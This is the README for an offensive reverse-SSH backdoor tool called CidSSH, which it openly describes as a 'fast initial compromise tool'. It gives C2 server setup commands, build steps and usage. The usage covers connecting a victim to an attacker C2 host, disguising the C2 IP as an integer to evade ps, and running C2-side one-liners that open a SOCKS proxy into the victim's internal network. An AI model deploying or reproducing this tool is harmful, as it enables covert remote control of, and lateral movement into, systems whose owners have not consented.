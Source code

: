# Cid SSH
![alt text](http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg)

Let's face it, there is no better shell than SSH. It just not only provides a rich encrypted shell communication but it can be used to create a socks proxy to browse the internal network of a system.

**CidSSH** is a statically compiled tool (no dependencies needed) that can be used to create an SSH server and a SSH client within just one binary. It will firstly, create RSA certificates, spin up an SSH server (listening in `localhost` and by default on port 2222),and finally create a reverse SSH tunnel with a C2 host specify by command lone. Due to the fact that the SSH server listens at `localhost`, external scanners won't detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple, not interactive shell.

## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous
```

Allow blank passwords for SSH sessions for the `anonymous` user and restrict `anonymous` user to allow only reverse port forwarding:

```
sudo cat <<EOT >> /etc/ssh/sshd_config
PermitEmptyPasswords yes

Match User anonymous
   AllowTcpForwarding remote
   X11Forwarding no
   PermitTunnel no
   GatewayPorts no
   AllowAgentForwarding no
   AllowStreamLocalForwarding no
   ForceCommand echo 'This is a disabled account'
   ClientAliveInterval 120
   ClientAliveCountMax 3
EOT
```

Restart sshd:
```sudo systemctl restart ssh```

### Prebuilt binaries
You can just use the prebuilt binaries that are in [Release](https://github.com/RedRangerz/Cid-SSH/releases/tag/v1.0). They are ready to roll.

If you want to compile from source keep reading below.

### Compilation on Windows
You can use the `CMakeLists.txt` along with `CMake` to create a Visual Studio project.

To generate mentioned project, just make sure you set in `CMake` the proper include and library paths for:
- libssh 
- openssl

You can find both of them already statically prebuilt for Windows [here](https://github.com/illera88/PrecompiledLibraries/).

### Compilation on Linux
CidSSH is compiled statically for linux using musl (a replacement for libc) from an Alpine distribution `x86_64`. 
We have a dockerfile to do the compilation more easy `Dockerfile_linux_static`.
These are the steps to build and get the compiled binary from the container:
```
# Build the image, install dependencies and compile CidSSH
sudo docker build -t alpine_cid_ssh -f Dockerfile_linux_static .
# Copy the binary from the docker container to the current folder
sudo docker run -v `pwd`:/data_out -i -t alpine_cid_ssh:latest /bin/sh -c "cp /Cid-SSH/build/CidSSH /data_out/"
```

### Compilation on MacOs
Compile CidSSH:
```
cd ~/shared/SSHIUU/src/
mkdir build && cd build
git clone https://github.com/illera88/PrecompiledLibraries
cmake -DCMAKE_BUILD_TYPE=Release -DLIBSSH_STATIC_PATH=PrecompiledLibraries/macos/libssh_mod/ ..
make
```

## Using it

Defaults: user is `anonymous` and default `LOCAL_SSH_SERVER_PORT` is 2222

Syntaxis:

`Cid-SSH.exe [user@]C2_hostname [LOCAL_SSH_SERVER_PORT]`

Examples:
```
Cid-SSH.exe 192.168.15.135
Cid-SSH.exe user@192.168.15.135 1234
Cid-SSH.exe user@192.168.15.135
```

You could also specify the IP address as an integer so it's not that obvious if `ps` is run:
```
Cid-SSH.exe -t 3232239495
```
Page to do the conversion: http://www.aboutmyip.com/AboutMyXApp/IP2Integer.jsp

In the C2:
```
sudo netstat -ptan | grep sshd | grep LISTEN | grep anon
# Get the port number, replace the XXXXX 
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p XXXXX -oStrictHostKeyChecking=no -D 0.0.0.0:8888
# Extra: One-liner for two previous commands:
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p `sudo netstat -ptan | grep sshd | grep LISTEN | grep anon | cut -d : -f2 | cut -d" " -f1` -oStrictHostKeyChecking=no -D 0.0.0.0:8888
```
